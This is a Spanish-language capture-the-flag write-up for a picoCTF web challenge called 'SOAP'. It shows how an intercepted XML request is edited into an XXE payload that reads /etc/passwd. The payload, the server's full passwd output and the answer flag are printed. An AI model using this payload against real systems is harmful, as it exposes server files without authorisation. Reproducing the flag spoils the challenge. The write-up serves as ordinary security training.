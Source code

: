 # SOAP

## Descripción
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?

Additional details will be available after launching your challenge instance.

## Hints
XML external entity Injection

## Solución
Se trata de una inyección XXE (XML external entity)
En este caso particular, cuando damos click en "detalles" se envía un formato XML simple que contiene la siguiente información: 
`<?xml version="1.0" encoding="UTF-8"?><data><ID>1</ID></data>`
(esto se observa analizando el código fuente y la lista de solicitudes en la pestaña de red de las herramientas de desarrollador del navegador respectivo)

Podemos modificar y reenviar esta carga dando click derecho en la solicitud POST y eligiendo la opción "Editar y reenvíar".

Se nos abre una ventana del lado izquierdo, nos desplazamos hasta abajo y ahí es donde modificamos el XML para que contenga lo siguiente:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<data><ID>&xxe;</ID></data>
````

Lo enviamos y se nos proporcionará la bandera al final de la respuesta.
```
Invalid ID: root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin flask:x:999:999::/app:/bin/sh picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_55662c16}
```

## Bandera 
```
picoCTF{XML_3xtern@l_3nt1t1ty_55662c16}
```

## Notas adicionales


## Referencias
[XXE](https://portswigger.net/web-security/xxe)
